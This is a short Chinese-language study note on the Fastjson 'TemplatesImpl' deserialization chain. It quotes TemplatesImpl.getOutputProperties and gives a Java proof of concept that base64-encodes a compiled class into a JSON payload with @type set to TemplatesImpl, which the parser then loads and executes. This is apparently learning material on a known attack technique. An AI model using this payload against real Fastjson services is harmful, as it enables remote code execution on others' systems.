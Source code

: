 # TemplateImpl链

这个链是联系到了CB链中找到的TemplatesImpl的getOutputProperties，用到了get方法，而fastjson是可以触发get方法的。

```java
public synchronized Properties getOutputProperties() {
    try {
        return newTransformer().getOutputProperties(); //CC3中动态加载类是由newTransformer调用的
    }
    catch (TransformerConfigurationException e) {
        return null;
    }
}
```

具体细节就不分析了（不使用，实现攻击需要传很多没有setter和getter的变量，所以要fastjson开启一个参数）

```java
public class FastJsonTemplateImpl {
    public static void main(String[] args) throws Exception{
        //byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Test.class"));
        String code = readClass("G:\\Java反序列化\\class_test\\Test.class");
        //System.out.println(readClass("G:\\Java反序列化\\class_test\\Test.class"));
        //byte[][] codes = {code};
//        TemplatesImpl templates = new TemplatesImpl();
//        Class templatesClass = templates.getClass();
//        Field name = templatesClass.getDeclaredField("_name");
//        name.setAccessible(true);
//        name.set(templates, "pass");
//
//        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
//        bytecodes.setAccessible(true);
//        //bytecodes.set(templates, codes);
//
//        Field tfactory = templatesClass.getDeclaredField("_tfactory");
//        tfactory.setAccessible(true);
//        tfactory.set(templates, new TransformerFactoryImpl());

        String s = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",\"_name\":\"pass\",\"_bytecodes\":[\"" + code + "\"],\"_tfactory\":{},\"_outputProperties\":{}}";
        JSONObject jsonObject = JSON.parseObject(s, Feature.SupportNonPublicField);
        System.out.println(jsonObject);
    }


    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());
    }
}
```
